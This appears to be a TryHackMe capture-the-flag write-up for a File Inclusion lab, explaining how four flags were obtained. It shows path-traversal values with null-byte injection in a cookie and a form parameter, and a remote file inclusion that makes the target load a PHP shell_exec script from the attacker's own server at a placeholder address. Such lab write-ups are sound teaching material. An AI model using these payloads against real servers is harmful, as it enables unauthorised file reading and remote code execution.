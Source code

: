 # TryHackMe - File Inclusion Challenges Writeup:
[ROOM](https://tryhackme.com/r/room/fileinc)

## Introduction
This writeup documents my approach to capturing flags in the File Inclusion challenges, where I explored techniques for bypassing input sanitization and leveraging Local and Remote File Inclusion (LFI/RFI) vulnerabilities.

---

### **Flag 1**

**Objective:** Include `/etc/flag1` via a form method bypass.

**Solution:**  
The form’s default `GET` method blocked the file inclusion attempt. By changing the form method to `POST` or directly sending a crafted `POST` request, I set the `file` parameter to `/etc/flag1` and successfully retrieved the flag.

---

### **Flag 2**

**Objective:** Manipulate the `THM` cookie to access `/etc/flag2`.

**Solution:**  
1. Initially tried setting the cookie `THM=Admin` instead of `THM=Guest`, but this wasn’t sufficient.
2. Noticed that the file path was linked to the `THM` cookie value. I adjusted the cookie to `THM=../../../../etc/flag2`, but `.php` was automatically appended.
3. Bypassed this by injecting a null byte (`%00`) after the file path, resulting in `THM=../../../../etc/flag2%00`, which worked.

---

### **Flag 3**

**Objective:** Use a `POST` request to bypass input sanitization and include `/etc/flag3`.

**Solution:**  
1. The `GET` request had input sanitization that added slashes, so I switched to `POST`.
2. Manipulated the form action and method to allow both `.` and `/`.
3. Successfully used `file=../../../../etc/flag3%00` to retrieve the flag, with the null byte helping to bypass the appended `.php`.

---

### **Flag 4**

**Objective:** Perform Remote File Inclusion (RFI) to execute commands and retrieve the server’s hostname.

**Solution:**  
1. Created a PHP script (`cmd.txt`) to get the server’s hostname:
   ```php
   <?php
   // Execute the hostname command
   $hostname = shell_exec('hostname');
   echo "Hostname: " . trim($hostname);
   ?>
   ```
2. Hosted this file using Python’s HTTP server:
   ```bash
   python -m http.server
   ```
3. Included the file remotely via `/playground.php?file=http://YOURIP:PORT/cmd.txt`, successfully executing the `hostname` command and capturing Flag 4.
